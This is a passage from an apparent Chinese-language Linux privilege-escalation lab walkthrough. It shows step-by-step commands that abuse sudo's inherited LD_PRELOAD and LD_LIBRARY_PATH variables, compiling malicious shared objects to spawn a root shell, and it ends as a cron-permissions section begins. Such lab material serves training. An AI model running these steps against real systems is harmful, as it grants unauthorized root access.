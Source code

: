:::

## Sudo - 环境变量

sudo 可以配置以继承用户环境中的某些环境变量。

检查哪些环境变量被继承（寻找 env_keep 选项）：

```shell
sudo -l
```

`LD_PRELOAD` 和 `LD_LIBRARY_PATH` 都是从用户的环境中继承的。`LD_PRELOAD` 在运行程序时在其他所有共享对象之前加载一个共享对象。`LD_LIBRARY_PATH` 提供了共享库首先搜索的目录列表。

使用位于 `/home/user/tools/sudo/preload.c` 的代码创建一个共享对象：

```shell
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

运行你可以通过 sudo 运行的程序之一（在运行 sudo -l 时列出的程序），同时将 `LD_PRELOAD` 环境变量设置为新共享对象的完整路径：

```shell
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

一个 root shell 应该被生成。在继续之前退出这个 shell。根据你选择的程序，你可能需要退出这个程序的 shell。

运行 `ldd` 命令来查看 apache2 程序文件使用了哪些共享库：

```shell
ldd /usr/sbin/apache2
```

使用位于 `/home/user/tools/sudo/library_path.c` 的代码创建一个与列表中某个库（比如 `libcrypt.so.1` ）同名的共享对象：

```shell
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

使用 `sudo` 运行 `apache2` ，同时将 `LD_LIBRARY_PATH` 环境变量设置为 `/tmp`（这是我们输出编译后的共享对象的地方）：

```shell
sudo LD_LIBRARY_PATH=/tmp apache2
```

一个 root shell 应该被生成。退出这个 shell。尝试将 `/tmp/libcrypt.so.1` 重命名为 `apache2` 使用的另一个库的名称，然后再次使用 `sudo` 运行 `apache2` 。它能够工作吗？如果不能，请尝试找出原因，以及如何更改 `library_path.c` 代码使其能够工作。

记得在继续之前退出 root shell！

## 定时任务 - 文件权限

Cron 任务是用户可以安排在特定时间或间隔运行的程序或脚本。Cron 表文件（crontabs）存储了 cron 任务的配置。系统范围的 crontab 位于 `/etc/crontab` 。

查看系统范围的 crontab 内容：

```shell
cat /etc/crontab
```
